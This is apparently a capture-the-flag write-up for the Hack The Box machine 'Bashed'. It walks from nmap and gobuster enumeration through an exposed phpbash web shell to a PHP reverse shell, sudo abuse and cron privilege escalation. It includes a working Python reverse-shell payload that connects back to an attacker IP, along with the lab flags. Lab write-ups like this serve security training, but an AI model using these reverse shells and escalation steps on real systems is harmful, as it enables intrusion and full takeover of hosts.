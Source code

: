 ```yaml
---
title: "HTB - Bashed"
author: "Anubhavsingh Sawdagur"
date: "2021-04-26"
subject: "Markdown"
subtitle: "10.10.10.68"
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```


# Bashed - 10.10.10.68

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.68
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 05:02 EDT
Nmap scan report for 10.10.10.68
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.45 seconds
```

## Gobuster

Enumerating the Apache webserver with gobuster.

```bash
gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt -o log/gobuster.out -u http://10.10.10.68 
```

```bash
/.htpasswd            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

## Website

![](Bashed.assets/image-20210426050746209.png)

The github link, [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash) reveals partial code of the website.

![](Bashed.assets/image-20210426051313928.png)

![](Bashed.assets/image-20210426051347480.png)

![](Bashed.assets/image-20210426051413896.png)

Both files **[phpbash.php](http://10.10.10.68/dev/phpbash.php)** and **[phpbash.min.php](http://10.10.10.68/dev/phpbash.min.php)** looks to be the same as in the github repository. Hence source code is revealed.

The page [http://10.10.10.68/dev/phpbash.php](http://10.10.10.68/dev/phpbash.php) is an interactive shell coded in php.

![](Bashed.assets/image-20210426051717761.png)

# Exploitation

### Getting a reverse shell

Going to **/dev/shm**, the attacker can upload a reverse shell as normally anyone can write to **/dev/shm**.

![](Bashed.assets/image-20210426053142178.png)

Normally on kali linux, these are some default location where php reverse shells can be found.

```bash
$ locate php-reverse                                                                             
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```

![](Bashed.assets/image-20210426052146005.png)

Editing the php reverse shell to connect to the attacker's IP address.

![](Bashed.assets/image-20210426052531204.png)

The attacker then hosts a http server and also setup **nc** to listen for an incoming connection on port **8888**.

```bash
nc -lvnp 8888
python3 -m http.server 80  
```

![](Bashed.assets/image-20210426053314010.png)

![](Bashed.assets/image-20210426053359115.png)

After running the reverse shell on the server, the attacker gets a **nc** connection.

![](Bashed.assets/image-20210426053608498.png)

The reverse shell is then stabilised using the following commands.

```bash
which python # to know which python version exists
python -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
```

![](Bashed.assets/image-20210426053953530.png)

## Privilege Escalation to scriptmanager

### **Vulnerability Explanation:**

As can be seen below, the user **www-data** can execute any command as the user **scriptmanager** *without the need of a password*

![](Bashed.assets/image-20210426054917421.png)

### User.txt

```bash
find /home -type f -ls 2>/dev/null
```

The above command finds everything having the type **file** in the directory **/home**, as well as listing all the attributes of each file and finally **2>/dev/null** mean to redirect standard error to **/dev/null**.

![](Bashed.assets/image-20210426060250953.png)

**User.txt** can be found in the home directory of **arrexel** and it can be read anyone.

```bash
cat /home/arrexel/user.txt
```

![](Bashed.assets/image-20210426061019511.png)

> user.txt flag: `2c281f318555dbc1b856957c7147bfc1`

## Privilege Escalation to Root

### Root.txt

The directory **scripts** standards out as it is not an standard directory.

![](Bashed.assets/image-20210426061419226.png)

### **Vulnerability Explanation:**

Going into the directory **script**, it can be concluded that there has to be a **cronjob** running on the machine as the date created of the file **test.txt** keeps changing **every minute**.

![](Bashed.assets/image-20210426061811213.png)

Since the script **test.py** is owned by **scriptmanager** and it is writing to the file **test.txt** as root. It can be said that the attacker can modify the script and it will be ran as root.

```bash
cat test.py
```

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

RSG is used to generate a reverse shell in python and it also listens on the port specified. After adding the selected payload to the file **test.py**, it will be executed by the cronjob when it runs.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.23",8888))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

![](Bashed.assets/image-20210426063556805.png)

As soon as the **cronjab** executes, the attacker gets a reverse shell from the machine bashed.

![](Bashed.assets/image-20210426064607146.png)

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

![](Bashed.assets/image-20210426065148940.png)

> root.txt flag: `cc4f0afe3a1026d402ba10329674a8e2`